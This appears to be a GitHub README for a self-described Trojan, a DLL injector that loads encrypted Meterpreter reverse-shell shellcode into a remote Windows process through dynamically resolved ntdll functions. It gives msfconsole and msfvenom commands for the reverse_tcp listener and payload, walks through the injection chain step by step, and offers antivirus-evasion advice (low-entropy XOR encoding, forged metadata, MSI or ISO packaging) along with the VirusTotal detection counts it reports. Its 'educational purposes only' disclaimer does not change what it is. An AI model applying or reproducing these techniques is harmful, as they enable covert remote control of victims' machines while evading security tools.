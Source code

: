 # Native API Dll injector Trojan

Dll injector in a remote process using dynamically resolved Native Api functions and encrypted shellcode, undetected by Windows Defender.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code
Similarly to [this malware](https://github.com/Hue-Jhan/Ntdll-Process-inj-Trojan) i made, this one calls dynamically resolved functions from ntdll.dll, reducing static IAT footprint, it basically retrieves addresses of native api functions at runtime and uses them to inject a malicious dynamic link library in a target process, the library will upload shellcode into that process.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they are "too perfect" and raise the entropy levels too much.

### 2.1) DLL:

We get a handle to ntdll and we dynamically resolve its functions both in the DLL and in the injector, unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll``` functions are sometimes less likely to be hooked by EDRs at user level.

- In order to use Ntdll we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- Then we use ```GetNtFunctionAddress``` function to dynamically retrieve addresses of NT functions from ntdll using ```GetProcAddress```;
- When the library is attached to the process, it decodes the obfuscated shellcode and using the native api functions it uploads it into memory;
- Then it creates a thread into the same process its being injected into and the previously uploaded shellcode will be executed.

### 2.2) Injector:

The injector loads the dynamic library onto disk, looks for a specific process and injects the library into it:

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID, allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the handle to kernel32.dll and ntdll.dll and dynamically resolve the address of LoadLibraryA;
- Finally we create a thread that executes the function that loads the malicious dll;
- The Dll decodes the data and uploads it to memory, creating the shell;

Extracting the dll and uploading to disk is risky, in the future i will upload it directly to memory.

# 🛡 AV Detection

The raw Dll gets like 5 detections,  <img align="right" src="media/nt-dll-crypt-reshacked.png" width="350" /> if i upload the metadata and resources of another library such as ntdll itself, the detections drop to 1.

The raw exe file is currently undetected by windows defender but gets blocked by Bitdefender (even the free trial, yes bitdefender is the best av in my opinion, only behind crowdstrike). 

<img align="right" src="media/nt-dll-inj.png" width="350" />

On virus total it gets 11 detections and as usual it doesn't show bitdefender flagging it.

If i obfuscate the file even more with Resource Hacker by inserting the metadata of another well known software like shotcut, the detections drop to 8/9 on virus total. 

You can obfuscate it even more using tools like soggoth, or by turning it into an msi or iso file.

<img align="right" src="media/nt-dll-inj-reshacked-shotcut.png" width="350" />
